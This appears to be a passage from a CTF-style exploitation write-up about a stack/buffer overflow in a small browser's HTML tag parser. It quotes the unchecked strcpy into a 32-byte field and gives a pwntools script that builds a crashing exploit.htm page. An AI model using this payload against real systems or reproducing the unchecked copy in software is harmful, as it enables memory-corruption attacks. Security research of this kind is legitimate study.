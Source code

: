 

*programs/cmm/browser/TWB/parse_tag.h*

```c
...
struct _tag
{
	char name[32];
	char prior[32];
	bool opened;
	collection attributes;
	collection values;
	dword value;
	dword number;
	bool is();
	bool parse();
	dword get_next_param();
	dword get_value_of();
	signed get_number_of();
} tag=0;
...
bool _tag::parse(dword _bufpos, bufend) {
    	...
        // probably this
    	if (name) strcpy(#prior, #name); else prior = '\0';
    	...
}
```

We spend some time trying to understand why exactly this causes the code to crash

Looking at memory after the crash shows that memory is filled with our 32 byte tag.

After spending some more time in the debugger EspressoForLife and I concluded that we actually overflow into executed code (This wasn't as obvious as in gdb, because errors make the instruction pointer jump to the start of the page `0x00000000`, not showing an invalid instruction was executed).



### Exploitation

#### Exploiting Overflow

##### Analysis

We create a simple webpage that crashes the browser

```python
#!/bin/python
from pwn import *

HEADER = b'<html><body>'

def tagger(tag):
  return b'<' + tag + b'/>'

with open('exploit.htm', 'wb') as exploithtm:
  exploithtm.write(HEADER)
  exploithtm.write(tagger(cyclic(0x20)))
```
